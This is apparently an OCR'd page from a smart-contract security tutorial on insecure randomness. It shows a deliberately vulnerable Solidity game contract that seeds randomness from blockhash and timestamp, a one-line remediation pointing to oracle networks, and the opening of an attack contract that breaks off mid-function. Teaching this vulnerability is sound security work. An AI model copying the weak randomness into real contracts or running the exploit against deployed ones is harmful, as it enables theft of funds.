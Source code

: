 ## Remediation

The use of oracle networks like Chainlink network.


## Code Sample

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

/*
NOTE: cannot use blockhash in Remix so use ganache-cli

npm i -g ganache-cli
ganache-cli
In remix switch environment to Web3 provider
*/

/*
GuessTheRandomNumber is a game where you win 1 Ether if you can guess the
pseudo random number generated from block hash and timestamp.

At first glance, it seems impossible to guess the correct number.
But let's see how easy it is win.

1. Alice deploys GuessTheRandomNumber with 1 Ether
2. Eve deploys Attack
3. Eve calls Attack.attack() and wins 1 Ether

What happened?
Attack computed the correct answer by simply copying the code that computes the random number.
*/

```

contract GuessTheRandomNumber {
    constructor() payable {}

    function guess(uint256 _guess) public {
        uint256 answer = uint256(
            keccak256(
                abi.encodePacked(blockhash(block.number - 1), block.timestamp)
            )
        );

        if (_guess == answer) {
            (bool sent,) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
}
```

## Attack Path
```
contract AttackRandomnes {
    receive() external payable {}

    GuessTheRandomNumber public target;

    constructor(address _target) {
        target = GuessTheRandomNumber(_target);
    }

    function attack() public {
        uint256 answer = uint256(
```